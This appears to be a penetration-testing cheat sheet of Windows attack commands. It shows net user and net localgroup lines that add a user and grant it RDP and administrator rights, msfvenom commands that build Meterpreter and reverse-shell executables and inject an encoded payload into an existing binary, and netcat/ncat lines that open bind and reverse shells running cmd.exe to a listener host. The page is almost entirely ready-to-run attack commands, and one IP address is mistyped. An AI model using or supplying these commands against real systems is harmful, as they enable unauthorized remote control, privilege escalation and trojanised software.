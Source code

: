 ## RDP

```
If RDP group exits try to add self to group for rdp
    -Add a user on Windows
        -Command: net user $username $password /add
    -Add a user to RDP Group
        -Command: net localgroup "Remote Desktop Users" $username /add
    -Make a user an administrator
        -net localgroup administrators $username /add
```

## Msfvenom

* Meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

* Non-staged payload (works with nc)

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

* Staged payload (must be caught with metasploit)

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

* Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Netcat Shell

```
nc.exe -nlvp 4444 -e cmd.exe
nc.exe 192.168.1.101 443 -e cmd.exe

ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -nv <ip_to_connect> 4444	

If netcat exe cant be located try to host own nc.exe
Command: \\10.10.X.X\\share\nc.exe ****
```
